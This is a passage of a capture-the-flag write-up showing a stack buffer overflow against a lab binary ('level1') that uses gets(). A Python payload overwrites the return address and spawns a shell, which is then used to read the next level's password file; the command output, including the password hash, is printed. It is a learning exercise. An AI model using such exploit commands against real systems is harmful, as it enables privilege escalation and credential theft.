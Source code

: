 1. So, we have to find a way to send our payload WITHOUT sending neither a terminating newline nor EOF. A well known command to `print` content is `cat`, and by reading the documentation:

	```
	With no FILE, or when FILE is -, read standard input.
	```

1. Good. Give it a try.

	```sh
	> (python -c 'print( "A" * 76 + "\x44\x84\x04\x08" )' ; cat) | ./level1
	Good... Wait what?
	$ whoami
	level2
	```

1. Hooray! Get the flag.

	```sh
	> (python -c 'print( "A" * 76 + "\x44\x84\x04\x08" )' ; cat) | ./level1
	Good... Wait what?
	$ cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```

## Documentation

- Function: [gets](https://man7.org/linux/man-pages/man3/gets.3.html)
- Command: [cat](https://www.man7.org/linux/man-pages/man1/cat.1.html)
- Resource: [YouTube](https://www.youtube.com/watch?v=8QzOC8HfOqU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14)
